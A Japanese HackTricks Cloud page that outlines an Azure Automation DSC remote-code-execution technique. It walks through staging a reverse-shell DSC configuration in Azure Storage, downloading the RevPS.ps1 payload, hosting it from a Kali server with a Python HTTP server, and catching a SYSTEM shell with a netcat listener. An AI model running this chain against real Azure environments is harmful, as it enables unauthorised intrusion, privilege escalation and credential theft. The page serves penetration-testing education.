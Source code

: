 # Az - State Configuration RCE

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングテクニックを共有してください。

</details>
{% endhint %}

**完全な投稿を確認する: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### リモートサーバー（C2）インフラの準備と手順の概要

#### 概要
このプロセスは、Windows Defenderをバイパスするために設計されたNishangの`Invoke-PowerShellTcp.ps1`ペイロードをホストするリモートサーバーインフラを設定することを含みます。このペイロードは、Kali Linuxマシン（IP `40.84.7.74`）からシンプルなPython HTTPサーバーを使用して提供されます。操作は以下の手順で実行されます：

#### ステップ1 — ファイルの作成
- **必要なファイル:** 2つのPowerShellスクリプトが必要です：
1. `reverse_shell_config.ps1`: ペイロードを取得して実行する望ましい状態構成（DSC）ファイル。[GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1)から入手できます。
2. `push_reverse_shell_config.ps1`: 構成をVMに公開するスクリプト。[GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1)で入手できます。
- **カスタマイズ:** これらのファイル内の変数とパラメータは、リソース名、ファイルパス、サーバー/ペイロード識別子など、ユーザー固有の環境に合わせて調整する必要があります。

#### ステップ2 — 構成ファイルの圧縮
- `reverse_shell_config.ps1`を`.zip`ファイルに圧縮し、Azure Storage Accountに転送する準備が整います。
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### ステップ3 — ストレージコンテキストの設定とアップロード
- 圧縮された構成ファイルは、AzureのSet-AzStorageBlobContentコマンドレットを使用して、事前定義されたAzure Storageコンテナであるazure-pentestにアップロードされます。
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### ステップ 4 — Kaliボックスの準備
- Kaliサーバーは、GitHubリポジトリからRevPS.ps1ペイロードをダウンロードします。
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- スクリプトは、リバースシェルのためのターゲットWindows VMとポートを指定するように編集されます。

#### ステップ5 — 設定ファイルの公開
- 設定ファイルが実行され、リバースシェルスクリプトが指定された場所に展開されます。

#### ステップ6 — ペイロードのホストとリスナーのセットアップ
- Python SimpleHTTPServerが開始され、ペイロードをホストし、着信接続をキャプチャするためのNetcatリスナーも設定されます。
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- 予定されたタスクはペイロードを実行し、SYSTEMレベルの特権を獲得します。

#### 結論

このプロセスの成功した実行は、資格情報のダンプや攻撃を複数のVMに拡大するなど、さまざまな行動の可能性を開きます。このガイドは、Azure Automation DSCの領域での継続的な学習と創造性を奨励しています。

{% hint style="success" %}
AWSハッキングの学習と実践:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と実践: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
{% endhint %}
